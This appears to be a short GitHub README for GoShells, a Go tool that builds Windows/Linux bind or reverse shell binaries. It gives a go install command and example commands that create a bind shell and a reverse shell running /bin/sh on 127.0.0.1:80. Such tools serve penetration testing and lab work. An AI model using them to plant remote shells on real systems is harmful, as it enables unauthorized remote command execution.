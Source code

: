 # GoShells

Quick tool to create Windows/Linux Bind or reverse shells binaries

## Installation

```shell
go install github.com/shoriwe/GoShells
```

## Usage

### Create a bind based command execution

```shell
goshells shell.elf bind 127.0.0.1:80 /bin/sh
```

### Create a reverse based command execution

```shell
goshells shell.elf reverse 127.0.0.1:80 /bin/sh
```

